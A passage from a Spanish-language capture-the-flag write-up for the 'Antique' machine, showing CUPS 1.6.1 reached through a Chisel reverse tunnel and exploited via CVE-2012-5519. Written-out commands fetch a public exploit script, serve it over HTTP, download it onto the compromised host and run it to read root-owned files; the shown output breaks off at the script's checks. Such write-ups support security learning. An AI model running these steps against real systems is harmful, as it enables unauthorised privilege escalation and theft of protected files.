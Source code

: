 Tras establecer el túnel reverso con Chisel, se accedió exitosamente a la interfaz web de administración de CUPS a través del puerto local 9631 (redirigido desde el puerto 631 de la máquina víctima). En la interfaz se visualiza la versión del servicio: CUPS 1.6.1.
![1](/assets/img/machines/Antique/1.jpeg)

### CVE-2012-5519
Tras identificar la versión vulnerable de CUPS (1.6.1) y confirmar la exposición local del servicio, se decide explotar la vulnerabilidad CVE-2012-5519 utilizando un script público llamado cups-root-file-read.sh. Este script abusa de las funciones de impresión de CUPS para acceder a archivos arbitrarios del sistema con permisos de root.

Se descarga el script en la máquina comprometida y, al ejecutarlo, permite leer directamente archivos restringidos, como la flag del usuario root, sin necesidad de escalar privilegios manualmente.
```bash
❯ git clone https://github.com/p1ckzi/CVE-2012-5519
❯ cd CVE-2012-5519
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```
### Captura flag root

```bash
lp@antique:/tmp$ wget http://0.0.0.0:80/cups-root-file-read.sh
lp@antique:/tmp$ chmod +x cups-root-file-read.sh
lp@antique:/tmp$ bash cups-root-file-read.sh
                                            _
  ___ _   _ _ __  ___       _ __ ___   ___ | |_
 / __| | | | '_ \/ __|_____| '__/ _ \ / _ \| __|____
| (__| |_| | |_) \__ \_____| | | (_) | (_) | ||_____|
 \___|\__,_| .__/|___/     |_|  \___/ \___/ \__|
 / _(_) | _|_|      _ __ ___  __ _  __| |  ___| |__
| |_| | |/ _ \_____| '__/ _ \/ _` |/ _` | / __| '_ \ 
|  _| | |  __/_____| | |  __/ (_| | (_| |_\__ \ | | |
|_| |_|_|\___|     |_|  \___|\__,_|\__,_(_)___/_| |_|
a bash implementation of CVE-2012-5519 for linux.

[i] performing checks...
[i] checking for cupsctl command...
[+] cupsctl binary found in path.
[i] checking cups version...
[+] using cups 1.6.1. version may be vulnerable.
[i] checking user lp in lpadmin group...
```